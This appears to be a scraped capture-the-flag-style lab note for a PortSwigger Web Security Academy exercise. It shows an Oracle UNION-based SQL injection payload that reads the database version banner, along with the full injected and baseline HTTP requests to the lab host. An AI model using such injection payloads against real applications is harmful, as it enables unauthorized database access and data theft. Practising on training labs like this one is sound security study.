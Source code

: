 ' UNION SELECT NULL,banner FROM v$version--
Oracle
##### Payload Request
GET /filter?category=Corporate+gifts' UNION SELECT NULL,banner FROM v$version-- HTTP/2
Host: 0a8c00b40446859680dfe97a002900ca.web-security-academy.net
Cookie: session=jPQPIsVGIAiu4xIYGlY1GNQH1obbqoP0
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8c00b40446859680dfe97a002900ca.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
##### Base request
GET /filter?category=Corporate+gifts HTTP/2
Host: 0a8c00b40446859680dfe97a002900ca.web-security-academy.net
Cookie: session=jPQPIsVGIAiu4xIYGlY1GNQH1obbqoP0
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8c00b40446859680dfe97a002900ca.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i




